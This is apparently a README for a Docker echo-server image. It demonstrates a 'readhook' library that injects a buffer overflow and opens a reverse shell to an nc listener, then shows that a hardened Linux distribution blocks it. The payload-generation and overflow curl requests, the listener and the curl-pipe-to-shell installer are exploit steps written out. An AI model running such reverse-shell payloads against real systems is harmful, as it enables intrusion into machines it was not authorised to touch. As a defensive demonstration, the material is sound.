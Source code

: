 # node-echo-server
Docker node.js echo-server repository.

## Running
```
./run.sh
# OR
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```

## Stopping
```
docker kill echo
```

## Running interactively (equivalent to automated running described above).
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

node echo-server.js
```
# Using node-echo-server to demonstrate readhook.
(Note: In the following steps, you will need to have a listener running that the reverse-shell will try to connect to. On a Mac, this can look like this:
```
nc -l 5555
```

## Running interactively w/readhook
The following commands add and then run with readhook.
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add curl wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so

LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node echo-server.js
```

### With the above running container,
a) Generate a payload (e.g. curl localhost:8080/xyzzxMAKELOAD<ip-address><:port>)
b) Pass the payload back to confirm that it creates a reverse shell to the listener.
```
curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555
# <Save this output. It is the payload that will work in OVERFLOW>

curl localhost:8080/xyzzyOVERFLOW<...the rest of the saved output from above.>
# <Check your listener. It should have a reverse shell to the container.>
```

## Running interactively w/readhook and Polyverse Polymorphic Linux
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add curl wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so

curl https://repo.polyverse.io/install.sh | sh -s <your-api-token>

sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available

LD_PRELOAD=/tmp/basehook.so node echo-server.js
```

### Repeat Step b (from above) and confirm that it _does not_ create a reverse shell when Polyverse Polymorphic Linux is installed.
